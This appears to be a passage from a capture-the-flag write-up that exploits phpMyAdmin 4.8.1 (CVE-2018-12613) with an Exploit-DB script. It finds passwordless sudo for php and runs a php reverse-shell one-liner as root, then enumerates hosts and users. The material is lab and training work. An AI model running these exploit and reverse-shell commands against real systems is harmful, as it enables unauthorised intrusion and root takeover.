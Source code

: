 ```bash
:~# python3 50457.py 127.0.0.1 5000 / app s4Ucbrme 'sudo -l'
Start tag: html
Start tag: body
Start tag: h1
Data: Hello, Rosana!
End tag: h1
End tag: body
End tag: html
Matching Defaults entries for www-data on ip-xx-xxx-xx-xx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-xx-xxx-xx-xx:
    (root) NOPASSWD: /usr/bin/php
``` 


```bash
"sudo php -r ‘$sock=fsockopen(xx.xxx.xx.xxx,xxxx);exec(“/bin/bash <&3 >&3 2>&3”);’"
``` 


<br>
<h2>CVE-2018-12613</h2>

```bash
:~# searchsploit phpmyadmin 4.8.1
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE | php/webapps/50457.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
``` 

```bash
:~# searchsploit -m php/webapps/50457.py
  Exploit: phpMyAdmin 4.8.1 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50457
     Path: /opt/exploitdb/exploits/php/webapps/50457.py
    Codes: CVE-2018-12613
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /root/50457.py
``` 

```bash
ada@i...:~$ getent hosts
127.0.0.1       localhost
127.0.1.1       forgottenimplant
127.0.0.1       ip6-localhost ip6-loopback
``` 

```bash
ada@...:/home$ getent passwd
root:x:0:0:root:/root:/bin/bash
...
fi:x:1000:1000:fi:/home/fi:/bin/bash
...
ada:x:1001:1001:,,,:/home/ada:/bin/bash
...
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
``` 
